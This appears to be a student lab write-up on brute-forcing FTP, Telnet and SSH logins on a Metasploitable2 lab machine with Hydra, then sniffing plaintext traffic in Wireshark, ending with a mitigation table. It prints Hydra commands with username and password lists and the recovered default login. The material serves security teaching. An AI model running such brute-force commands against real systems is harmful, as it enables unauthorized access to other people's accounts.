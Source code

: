 **Labwork 1:👾Brute Force and Sniffing**
    
**🔨Tools Used**
    Hydra – for brute force attacks
    Wireshark – for sniffing and analyzing traffic
    Kali Linux – attacker machine
    Metasploitable2 – vulnerable target machine
    ftp, telnet, ssh – for manual login and testing

**Finding the Metasploit IP**

**1. Enumeration of Usernames🥐**
    Initial usernames used for brute force attacks were manually prepared in a file usernames.txt:
    - msfadmin
    - user
    - admin
    - root
    - test
    - guest

**2. Brute Force Attacks🥖**

**2.1 FTP**
    - Tool: Hydra
    - Command Used:
        
          hydra -L usernames.txt -P passwords.txt ftp://192.168.154.133

Result: Successful login found – msfadmin:msfadmin

**2.2 Telnet**
    - Tool: Hydra
    - Command Used:
       
        hydra -l msfadmin -P passwords.txt telnet://192.168.154.133

Result: Successful login – msfadmin:msfadmin



**2.3 SSH**
    - Tool: Hydra
    - Command Used:
        
        hydra -L usernames.txt -P passwords.txt ssh://192.168.154.133

Problem: Hydra (or the SSH client it's using) doesn't support the older key exchange algorithms used by the Meta2 machine, which is very outdated



**3. Sniffing Network Traffic🍖**

    Use the recovered credentials to log in to the respective services


    Use Wireshark or tcpdump to capture and analyze network traffic during the session.


    Identify which protocols transmit data in plaintext and which use encryption.


    Provide evidence (e.g., screenshots) to prove which protocols are secure and which are not.
    FTP


**Telnet**



**4.Problems Encountered**

    Protocol	Problem	Solution
    FTP	None	N/A
    Telnet	Service was off initially	Enabled Telnet on Metasploitable2
    SSH	Hydra connection failed due to key mismatch	Added weak algorithm support in SSH config

**5.Mitigation Strategies**

    Protocol	Vulnerability	Secure Alternative	Why it’s better
    FTP	Sends credentials in plaintext	SFTP / FTPS	Encrypts file transfer data and credentials
    Telnet	Transmits all in plaintext	SSH	SSH encrypts communication
    SSH	Still brute-forceable	Use key-based login, strong passwords	Prevents brute force access



